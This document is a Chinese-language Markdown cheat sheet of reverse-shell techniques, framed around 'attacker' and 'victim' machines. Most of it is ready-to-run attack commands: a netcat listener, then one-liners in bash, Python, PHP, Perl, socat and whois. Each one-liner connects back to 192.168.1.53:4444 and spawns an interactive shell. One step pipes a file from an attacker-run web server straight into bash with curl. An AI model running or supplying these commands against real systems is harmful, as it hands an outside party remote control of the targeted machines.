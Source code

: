 ShellCode 是指一段小型的机器代码，通常用于在计算机系统中执行特定的恶意操作。

## 1 监听端口

Netcat 侦听端口用于接收反弹 `shell`

```shell
┌──(root㉿kali)-[~]
└─# nc -lnvp [port]
```

## 2 反弹 Shell

**Bash**

```shell
[root@centos ~]# bash -i >& /dev/tcp/[host]/[port] 0>&1
```

**Curl 反弹**
开启 Web 服务

```shell
┌──(root㉿kali)-[~]
└─#  systemctl start apache2.service
```

将反弹 Shell 写入 HTML 文件

```shell
┌──(root㉿kali)-[/var/www/html]
└─# vim bash.html   
```

```
bash -i >& /dev/tcp/192.168.1.53/4444 0>&1
```

受害者下载并运行攻击者的文件

```
[root@centos ~]# curl 192.168.1.53/bash.html | bash
```

**Whois 反弹**

下载 `whois` 

```
[root@centos ~]# yum install -y whois
```

反弹的 Shell 并执行命令

```
[root@centos ~]# whois -h 192.168.1.53 -p 4444 [command]
```

**Python 反弹**

```
[root@centos ~]# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.53",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP 反弹**

安装 `php`

```
[root@centos ~]# yum install php -y
```

反弹 Shell

```
[root@centos ~]# php -r '$sock=fsockopen("192.168.1.53",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Socat 反弹**

安装 `socat`

```
[root@centos ~]# yum install -y socat
```

反弹 Shell

```
[root@centos ~]# socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.53:4444
```

**Perl 反弹**

```
[root@centos ~]# perl -e 'use Socket;$i="192.168.1.53";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

---

参考链接

- [Reverse Shell Generator](https://www.revshells.com/)
